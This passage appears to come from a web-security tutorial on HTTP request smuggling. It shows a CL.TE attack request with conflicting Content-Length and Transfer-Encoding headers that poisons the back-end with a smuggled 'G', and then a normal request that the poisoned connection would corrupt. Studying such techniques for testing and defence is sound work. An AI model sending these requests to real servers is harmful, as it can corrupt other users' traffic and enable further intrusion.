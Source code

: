 ![confirm-cl-te-continued](images/confirm-cl-te-continued.png)

#### Poison Back-End

1. Send attack request

```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
G
```
2. Send normal request
```html
POST / HTTP/1.1
Host: vulnerablewebsite.com
Cookie: session=GFVjCIKreQrqtuMjrJMZrcSPQanssDjv
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

foo=bar 


```
